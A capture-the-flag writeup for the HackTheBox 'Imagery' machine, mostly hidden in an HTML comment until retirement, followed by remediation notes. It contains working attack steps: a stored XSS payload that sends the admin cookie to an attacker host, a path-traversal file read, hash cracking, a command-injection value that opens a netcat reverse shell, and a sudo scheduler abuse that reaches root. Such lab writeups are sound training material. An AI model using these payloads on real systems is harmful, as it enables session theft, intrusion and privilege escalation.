 # Imagery

```
Difficulty: Medium
Operating System: Linux
Hints: True
```

**⚠️ Notice:
This challenge is currently active on HackTheBox.
In accordance with HackTheBox's content policy, this writeup will be made publicly available only after the challenge is retired.**

<!--

#### 🏁 Summary of Attack Chain

| Step | User / Access       | Technique Used                             | Result                                                                                                                                           |
| :--- | :------------------ | :----------------------------------------- | :----------------------------------------------------------------------------------------------------------------------------------------------- |
| 1    | (Local)             | Nmap service/version scan                  | Discovered services: SSH (22) and HTTP (Werkzeug on 8000) — identified *Image Gallery* web app.                                                  |
| 2    | (Web)               | Stored XSS in bug report                   | Injected a payload in the bug report to exfiltrate the admin session cookie when the admin viewed the report.                                    |
| 3    | (Web / Admin)       | Path traversal (LFI) on admin log endpoint | Used the stolen admin cookie to read `db.json` via the admin log endpoint and retrieve user password hashes.                                     |
| 4    | (Local)             | Password cracking (offline)                | Cracked extracted hashes with a wordlist to recover valid web user credentials (e.g., `testuser`).                                               |
| 5    | (Web)               | Command injection in image transform       | As a normal user, tampered with the image transform input to execute a command and obtain a web user shell.                                      |
| 6    | (Web Shell)         | Filesystem discovery & download            | Enumerated `/var/backup`, found an encrypted backup archive, and downloaded it for offline brute-force/decryption.                               |
| 7    | (Local)             | Archive decryption & offline hash cracking | Decrypted the backup, extracted a historical `db.json`, and cracked the `mark` hash.                                                             |
| 8    | (Local / Shell)     | Credential reuse / local user switch       | Used the cracked `mark` password to switch to user `mark` (`su mark`) and capture the user flag.                                                 |
| 9    | (Post-exploitation) | Sudo configuration review                  | `mark` has `NOPASSWD` for `/usr/local/bin/charcol` — a clear privilege-escalation vector; inspect the binary for interactive/scheduler features. |
| 10   | (Outcome)           | —                                          | User flag captured; potential privilege escalation path identified for follow-up investigation and mitigation.                                   |



### Recon – Nmap

```
nmap -sVC 10.10.XX.XX

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.7p1 Ubuntu 7ubuntu4.3 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.12.7)
|_http-title: Image Gallery
|_http-server-header: Werkzeug/3.1.3 Python/3.12.7
```

* **22/tcp** – SSH (OpenSSH 9.7p1)
* **8000/tcp** – HTTP (Werkzeug, Python 3.12.7)
  The web runs an *Image Gallery* application.



# Initial foothold — Stored XSS → admin cookie

The bug report page contains a **stored XSS** that can be used to exfiltrate the admin session cookie.

Start a simple HTTP server on your attacker host to capture callbacks:

```bash
python3 -m http.server 4444
```

Submit the following payload in a bug report (replace `<YOUR-IP>` with your host IP reachable by the target):

```html
<img src=x onerror=fetch('http://<YOUR-IP>:4444/?pwned='+document.cookie)>
```

When the admin opens the report, the admin session cookie will be sent to your listener.

![File ](Pictures/htb_imagery_admin_cookie.png)


![File ](Pictures/htb_imagery_admin_panel.png)

# LFI on the admin endpoint

With the stolen admin cookie you can call the admin log endpoint which reads files based on a `log_identifier` parameter (vulnerable to path traversal).

Set the cookie variable:

```bash
COOKIE="session=ADMIN_COOKIE"
```

Example request to read `db.json` from the web user's home:

```bash
curl -s -H "Cookie: $COOKIE" \
 "http://10.10.XX.XX:8000/admin/get_system_log?log_identifier=../../../../home/web/web/db.json" | jq .
```

![File ](Pictures/htb_imagery_dbjson.png)

This reveals users and password hashes stored in `db.json`.



# Hash cracking

Save the extracted hash locally (example):

```bash
echo '2c65c8d7bf<HASH>' >> hashes.txt
```


Crack with John the Ripper:

```bash
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

![File ](Pictures/htb_imagery_test_pass_crack.png)

After cracking, use the recovered credentials on the web app to log in as that user.



# Webshell — Command Injection in image transform

As a normal user (e.g. `testuser`) upload an image. Intercept the image transform/crop request (Burp or similar) and modify the `height` parameter to inject a command.

![File ](Pictures/htb_imagery_test_login.png)

Example (modify `YOUR-IP` and port):

```json
"height":"100; busybox nc YOUR-IP 4444 -e /bin/sh; echo"
```
![File ](Pictures/htb_imagery_burp_payload.png)

Start a listener on your attacker host:

```bash
nc -lvnp 4444
```

![File ](Pictures/htb_imagery_www_shell.png)

Trigger the transform and you will obtain a web user shell.



# Pivot to `mark` — backup bruteforce

From the web shell, enumerate backup files:

```bash
ls -la /var/backup
```

Find an encrypted backup, for example:

```
web_20250806_120723.zip.aes
```
![File ](Pictures/htb_imagery_www_aes.png)
![File ](Pictures/htb_imagery_www_aes_download.png)

Download the archive to your attacker host and brute-force/decrypt it (custom script or tools such as `pyAesCrypt`/loop). Once decrypted, extract the old `db.json` which contains historical user hashes (including `mark`'s hash).

![File ](Pictures/htb_imagery_www_aes_decrypted.png)

Crack the `mark` hash offline:

```bash
echo '<mark_hash>' >> hashes.txt
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

![File ](Pictures/htb_imagery_www_mark_hash.png)

![File ](Pictures/htb_imagery_www_mark_pass.png)

# User access — `su mark`

From the web shell or after obtaining valid credentials, switch user:

```bash
su mark
```

![File ](Pictures/htb_imagery_User_flag.png)

Capture the user flag.


## Privilege Escalation — `charcol` (sudo)

---

## Summary

`mark` can run `/usr/local/bin/charcol` as **root** without a password. `charcol` is a backup utility with an interactive shell and a scheduling feature (`--reset-password-to-default`, `auto add --schedule ...`). By using the shell and its scheduler we can add a recurring job (cron-style) to copy the root flag to a world-readable location.

---

## Enumeration

* Checked sudo privileges:

```bash
sudo -l
# shows: user mark may run /usr/local/bin/charcol as root NO PASSWORD
```

![File ](Pictures/htb_imagerysudol.png)


* Investigated `charcol` and discovered:

  * It supports an interactive shell: `charcol shell`
  * It supports adding automated scheduled tasks via an `auto add --schedule` command

---

## Exploitation

1. Launch the `charcol` interactive shell as root via sudo:

```bash
sudo /usr/local/bin/charcol shell
```

2. Inside the `charcol` shell add a scheduled job that runs every minute to copy the root flag and make it world-readable:

```text
auto add --schedule "* * * * *" --command "cp /root/root.txt /tmp/root.txt && chmod 777 /tmp/root.txt" --name "get_flag"
```

3. Wait briefly (the job runs every minute). Then read the copied flag:

```bash
cat /tmp/root.txt
```
![File ](Pictures/htb_imagery_Root_flag.png)

---

## Notes

* This write-up documents a single, simple path to root by abusing `charcol`'s scheduling feature when callable via `sudo`.
* **Remediation / Mitigation recommendations:**

  * Do **not** allow untrusted users to run privileged utilities without a password unless absolutely necessary.
  * Remove scheduling features or restrict them when exposing utilities to non-admin users.
  * Audit binaries allowed in `sudoers` for interactive functionality and dangerous features (shells, scheduling, arbitrary command execution).
  * Use least-privilege: if a helper utility is needed, wrap it in a safe, purpose-limited script or use `sudo` restrictions that limit allowed subcommands and arguments.

---
